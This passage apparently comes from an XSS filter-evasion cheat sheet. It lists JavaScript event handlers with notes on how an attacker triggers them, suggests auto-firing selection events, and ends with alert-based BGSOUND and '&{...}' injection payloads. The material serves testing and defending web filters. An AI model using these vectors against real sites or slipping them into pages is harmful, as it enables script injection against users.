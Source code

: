     this event fires every time the timeline begins to play backward)
86. `onRowsEnter()` (user or attacker would need to change a row in a
    data source)
87. `onRowExit()` (user or attacker would need to change a row in a data
    source)
88. `onRowDelete()` (user or attacker would need to delete a row in a
    data source)
89. `onRowInserted()` (user or attacker would need to insert a row in a
    data source)
90. `onScroll()` (user would need to scroll, or attacker could use the
    `scrollBy()` function)
91. `onSeek()` (the onreverse event fires when the timeline is set to
    play in any direction other than forward)
92. `onSelect()` (user needs to select some text - attacker could auto
    initialize with something like:
    `window.document.execCommand("SelectAll");`)
93. `onSelectionChange()` (user needs to select some text - attacker
    could auto initialize with something like:
    `window.document.execCommand("SelectAll");`)
94. `onSelectStart()` (user needs to select some text - attacker could
    auto initialize with something like:
    `window.document.execCommand("SelectAll");`)
95. `onStart()` (fires at the beginning of each marquee loop)
96. `onStop()` (user would need to press the stop button or leave the
    webpage)
97. `onStorage()` (storage area changed)
98. `onSyncRestored()` (user interrupts the element's ability to play
    its media as defined by the timeline to fire)
99. `onSubmit()` (requires attacker or user submits a form)
100. `onTimeError()` (user or attacker sets a time property, such as
     dur, to an invalid value)
101. `onTrackChange()` (user or attacker changes track in a playList)
102. `onUndo()` (user went backward in undo transaction history)
103. `onUnload()` (as the user clicks any link or presses the back
     button or attacker forces a click)
104. `onURLFlip()` (this event fires when an Advanced Streaming Format
     (ASF) file, played by a HTML+TIME (Timed Interactive Multimedia
     Extensions) media tag, processes script commands embedded in the
     ASF file)
105. `seekSegmentTime()` (this is a method that locates the specified
     point on the element's segment time line and begins playing from
     that point. The segment consists of one repetition of the time line
     including reverse play using the AUTOREVERSE attribute.)

## BGSOUND

    <BGSOUND SRC="javascript:alert('XSS');">

## & JavaScript includes

    `<BR SIZE="&{alert('XSS')}">`

